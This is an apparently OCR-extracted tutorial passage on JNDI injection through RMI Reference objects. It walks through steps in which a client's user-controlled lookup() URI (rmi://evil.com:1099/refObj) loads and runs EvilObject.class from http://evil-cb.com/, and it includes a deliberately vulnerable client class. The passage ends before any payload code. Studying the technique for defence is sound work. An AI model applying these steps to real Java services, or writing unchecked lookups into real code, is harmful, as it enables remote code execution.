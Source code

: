 ### RMI attack vector
### RMI+Reference Utilization Skills 
JNDI provides a Reference class to represent a reference to an object, which contains the class information and address of the referenced object. 

Because in JNDI, object transfer is either stored by serialization (copy of object, corresponding to pass by value) or by reference (reference of object, corresponding to pass by reference). When serialization is not easy to use, We can use Reference to store objects in the JNDI system. 
so inorder to exploit the JNDI injection vulnerability we need to : 
- bind the malicious Reference class in the RMI registry, where the malicious reference points to the remote malicious class file, when the user can control it outside the lookup() function parameter of the JNDI client or outside the classFactoryLocation parameter of the Reference class constructor. When the control is performed, the user's JNDI client will access the malicious Reference class bound in the RMI registry, thereby loading the malicious class file on the remote server and executing it locally on the client, finally realizing the JNDI injection attack and leading to remote code execution . 

Let's look at an example, taking the external controllable parameters of the lookup() function as an example, the attack principle is as follows: 

![jndi](/home/Downloads/6.png)

    1 - The attacker triggers dynamic envi  ronment conversion through controllable URI parameters, for example, the URI here is rmi://evil.com:1099/refObj；
    2 - The previously configured context rmi://localhost:1099will be pointed to due to dynamic context conversion rmi://evil.com:1099/；
    3 - apply to go rmi://evil.com:1099request binding object refObj, the RMI service prepared by the attacker in advance will return with the name refObjThe ReferenceWrapper object you want to bind ( Reference("EvilObject", "EvilObject", "http://evil-cb.com/")）；
    4 - App gets ReferenceWrapperobject starts from local CLASSPATHsearch in EvilObjectclass, if it does not exist it will be retrieved from http://evil-cb.com/go up and try to get EvilObject.class, that is, to dynamically acquire http://evil-cb.com/EvilObject.class；
    5 - The attacker's pre-prepared service returns a compiled file containing malicious code. EvilObject.class；
    6 - The application starts calling EvilObjectThe constructor of the class, because the attacker defines the constructor in advance, the malicious code contained in it is executed;


The code is as follows. Of course, you need to pay attention to the impact of the JDK version.
JNDIClient.java, lookup() function parameters are externally controllable: 

```java
public  class  JNDIClient  { 
    public  static  void  main (String[] args)  throws  Exception  { 
        if (args.length <  1 ) { 
            System.out.println( "Usage: java JNDIClient <uri>" ); 
            System.exit(- 1 ); 
        } 
        String uri = args[ 0 ]; 
        Context ctx =  new  InitialContext(); 
        System.out.println( "Using lookup() to fetch object with "  + uri); 
        ctx.lookup(uri); 
    } 
} 
```
EvilObject.java, the purpose is to play the role of malicious code: 
